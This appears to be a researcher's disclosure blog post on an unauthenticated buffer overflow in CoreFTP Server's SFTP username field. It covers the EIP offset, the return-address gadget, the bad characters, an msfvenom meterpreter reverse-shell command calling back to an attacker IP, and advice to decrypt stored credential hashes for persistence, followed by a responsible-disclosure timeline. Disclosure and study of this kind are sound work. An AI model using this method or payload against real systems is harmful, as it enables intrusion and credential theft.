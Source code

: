 ```yaml
---
layout: post
title:  "Unauthenticated Remote Code Execution/DoS on CoreFTP Server - CVE Pending"
date:   2020-08-16 01:01:00 +0100
categories: binary reverse exploitation
---
```


# Unauthenticated Remote Code Execution/DoS on CoreFTP Server - CVE Pending

Well hello there, hope everyone is doing well on this lockdown. As with many people, I start learning some new tricks, and I went old school on this one. Due to the excess time, we had to play with another thing I started looking again for old school exploits such as Buffer Overflows. Well, it didn't take long to find one.

CoreFTP comes in two versions: a client and a Server. Let us focus on the server-side. CoreFTP Server is an FTP Server (shocking) that allows IT administrators not only to serve as FTP but as SFTP with client certificates and integrate with the domain. For the sake of clarity, we tested the Core FTP build 583.

## Starting testing

As with every test, we start by sending some erroneous data to every user input field possible. There were a lot of crashes in the Server Management GUI. For instance, on the self-signed server certificate fields, we could overwrite the EIP pretty quickly, but the problem would be non-ASCII characters, and it would be dumb since you there already have access to the management interface that supposedly operates in Administrative mode since the server needs to bind to lower ports (0-1023).


However, this opens the door to exploit other fields. The server exposes a network port to allow clients to connect and retrieve data. I choose to go with the SFTP (Basically SSH only with file support) with SSH keys enabled. The first idea was to try to send garbage data in the Key-Exchange phase of the protocol, for instance, send an overly long encoded communication to trigger the exploit. However, the clients try to verify if the data is valid before sending. Next, I just tried the simple username with 'A '*huge_amount and the server stopped responding and hanged. Hmmm..

![crashServer]({{ "images/coreftprce/image4.png" | absolute_url}})

I quickly created an environment with the service running on a Windows XP SP3 Build 2600 (because, no protections) and another on a Windows 10 machine. For the sake of clarity, **my victim machine will be at 192.168.155.132**, and the **attackers' machine will be at 192.168.155.176**. I quickly checked the binary and verified that it doesn't have any security extensions; this means no ASLR no DEP, nothing. Thus we don't need to worry about bypassing these technologies. I follow the training in [here](https://www.fuzzysecurity.com/tutorials.html) (and I recommend it). I attached a debugger (ImmunityDBG) to the process and generated an SSH key pair (it doesn't matter as we are going to find out) and use it to connect to the server but with the 'A'*1024 as the username and we get the glorious EIP 41414141. Hurray! We control the EIP and have a primary entry point to try to exploit this!

![debuggerattached]({{ "images/coreftprce/image5.png" | absolute_url}})

## Exploiting it

If you read the tutorial link (and I think you should if it's the first time you reading something like this), you should know that the next step is to determine the offset to rewrite the EIP. You can either do it by trial and error or be intelligent and use something like the pattern generator tool from the Metasploit framework. With that, we can see that the EIP will be overwritten after ``198 bytes``, which means that we need to write 198 bytes before rewriting it.

![monafindoffset]({{ "images/coreftprce/image1.png" | absolute_url}})

After that, find any instruction capable of jumping to our shellcode, such as a ```call ESP```. We can use the [mona script](https://github.com/corelan/mona) to help enumerate all the possibilities to do this. It will search for all compatible instructions in all the code and imported functions. Since the main code contains a NULL byte, we can not choose it, so we need to rely on imported DLLs. Since Windows XP have a lot of them without ALSR, we can pick one that suits us. However, it means that the exploit needs to be ported for other operating systems, service packs, maybe language, etc.

![monajumptoshellcode]({{ "images/coreftprce/image6.png" | absolute_url}})

In the previous image, we can see some of the possible ```JUMP ESP``` instructions, but there are a lot more on them in a text file on your workspace:

![monajumptoshellcode2]({{ "images/coreftprce/image7.png" | absolute_url}})

Next, we should move along and perform a bad chars evaluation. When we send the characters to the buffer, some of them may break the normal functioning of the exploit (due to verifications or operations on them). We can use the mona script to generate an array of all possible values, from 0x00 to 0xFF or from 0 to 255. Sending this buffer and analyzing the memory afterwards gets us the bad chars. Mona script can help compare the chars and the bad chars and provide a direct response on what we should exclude of the payload.

![monadetectbadchars]({{ "images/coreftprce/image8.png" | absolute_url}})

The payload can then be crafted using the Metasploit Venom and passing the bad chars (```\x00 \x01 \x02 \x0a \x0d \x40```) with the '-b' flag. We generate a small payload to get remote code execution:

```msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=192.168.155.176 LPORT=443 -b '\x00\x01\x02\x0a\x0d\x40' -f python --smallest```

In this case, I used a meterpreter payload just because but you can choose whatever you want. I just opened a listener on Metasploit console and ran the following exploit.

![exploitcode]({{ "images/coreftprce/image9.png" | absolute_url}})

Yes, I pasted an image with the code because it could trigger Antivirus Agents since it has a very rudimentary Meterpreter shell in it. The exploit uses the paramiko [paramiko SSH library](http://www.paramiko.org/) to connect to the SSH service and pass the payload as the username. The connection will fail, but at that point, we should get our shell in Metasploit. One small detail, if we use the ```CALL ESP```, the exploit will succeed, and the service will continue to run as intended, at least on this case. Hurray, we got unauthenticated RCE! =). Some additional remarks are in order: Once you get RCE and can access the file system, try to access the configuration file. There you will find several hashes encrypted with AES256, someone did a great reversing job and posted the procedure to decrypt them [here](https://coreysalzano.com/how-to/how-to-extract-passwords-from-core-ftp-le/). You can also look for specific memory locations of the decrypted hashes (I sure did but later found out this, at least I learn something in the process). Then you can use that credential hopefully to maintain access. The application needs to run on Administrator mode, so you just got at least Local Administrative on a machine, congratz!

![exploitcode]({{ "images/coreftprce/image10.png" | absolute_url}})

There are also other versions vulnerable to this, but after version 2.1 of the CoreFTP Server, the buffer started converting to UTF-8, and we need to perform [Venetian method](https://img2.helpnetsecurity.com/dl/articles/unicodebo.pdf) to exploit it. I was not successful in doing that, so the last that we can achieve is Denial of Service (DoS). To do this, we send garbage to the buffer and crash the service. Meh, not that good but could be helpful in some situations. Maybe someone that knows more than what I do can help and exploit this.

There is the problem of portability of the exploit. I did this on a Windows XP SP3 machine (except the detection of security extensions, that I did on the Windows 10 Machine) so I won't be bothered with ASLR and DEP modes. Since the code of the program holds bad chars, such as the NULL byte (0x00) we can't use it to steal an instruction to jump to our shellcode. Otherwise, the exploit would work on all OSs. Therefore we needed to use some of the imported DLLs present to reuse the instruction, and then jump to our shellcode. One interesting thing to work on is to try to craft something that would bypass the authentication, jump the verification of the password and give access to files. Don't know if it is possible but I wonder. Also, this exploit **only works if the SSH key is enabled**. You don't need a user registered with it, but the server should accept it. The problem relies on the most robust configuration (using SSH keys to authenticate users) even if there is none configured.

## Disclosure

This vulnerability follows the responsible disclosure standard. At first, the vendor did not reply but after insisting I got trough to someone who could patch this. After investigation, he provided the patch to clients, and after the patch is available for one month, I released this disclosure. I like to thank them for providing support for fixing this vulnerability. As a footnote, I am still waiting for the CVE ID from Mitre, when that's available, I'll update this page.

## Timeline

* 01/05/2020 - Vulnerability discovery
* 02/06/2020 - First contact with vendor
* 21/06/2020 - Second contact with vendor
* 26/06/2020 - Vulnerability fix tested, patch confirmed
* 27/07/2020 - Official date of release
* 16/08/2020 - Real date of release
* 23/08/2020 - Grammer fixes, thanks to @jpdias =)  

